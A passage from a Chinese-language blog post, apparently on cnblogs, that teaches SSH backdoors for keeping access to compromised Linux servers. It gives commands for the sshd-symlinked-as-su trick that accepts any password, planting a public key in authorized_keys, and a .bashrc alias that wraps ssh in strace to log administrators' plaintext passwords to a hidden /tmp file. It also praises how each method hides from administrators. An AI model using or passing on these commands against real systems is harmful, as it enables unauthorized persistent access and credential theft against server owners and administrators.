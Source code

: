 想要修改连接端口的话可以利用py修改：

```
Copy`import struct
buffer = struct.pack('>I6',19526)
print repr(buffer)` 
```

[![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305165647857-2116649151.png)](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305165647857-2116649151.png)

优点：  
1、在无连接后门的情况下，管理员是看不到端口和进程的，last也查不到登陆。  
2、在针对边界设备出网，内网linux服务器未出网的情况下，留这个后门可以随时管理内网linux服务器，还不会留下文件和恶意网络连接记录。

#### 4.2 SSH 软连接后门

软连接后门的原理是利用了PAM配置文件的作用，将sshd文件软连接名称设置为su，这样应用在启动过程中他会去PAM配置文件夹中寻找是否存在对应名称的配置信息(su)，然而 su 在 pam_rootok 只检测 uid 0 即可认证成功，这样就导致了可以使用任意密码登录:

```
Copy`ln -sf /usr/sbin/sshd /tmp/su
/tmp/su -oPort=888

ssh root@127.0.0.1 -p 888` 
```

[![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305205754698-1274201580.png)](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305205754698-1274201580.png)

优点：能够绕过一些网络设备的安全流量监测，但是本地在查看监听端口时会暴露端口，建议设置成8081，8080等端口。

#### 4.3 SSH 公钥免密登陆

```
Copy`ssh-keygen -t rsa //生成公钥
echo id_rsa.pub >> .ssh/authorized_keys  //将id_rsa.pub内容放到目标.ssh/authorized_keys里` 
```

这个是老生常谈的公钥免登陆，这种用法不只是用在留后门，还可以在一些特殊情况下获取一个交互的shell，如struts写入公钥，oracle写入公钥连接，Redis未授权访问等情景。

#### 4.4 SSH Keylogger记录密码

当前系统如果存在strace的话，它可以跟踪任何进程的系统调用和数据，可以利用 strace 系统调试工具获取 ssh 的读写连接的数据，以达到抓取管理员登陆其他机器的明文密码的作用。

在当前用户的 .bashrc 里新建一条 alias ，这样可以抓取他登陆其他机器的 ssh 密码

```
Copy``alias ssh='strace -o /tmp/.sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh'`` 
```

设置完毕后，倘若当前系统不存在alias，那么就会影响其正常使用：

[![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305210445202-153632745.png)](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305210445202-153632745.png)

```
Copy`grep "read(5" /tmp/.sshpwd-09May32324242.log | tail -n 11    //根据不同环境自行调试响应行数` 
```
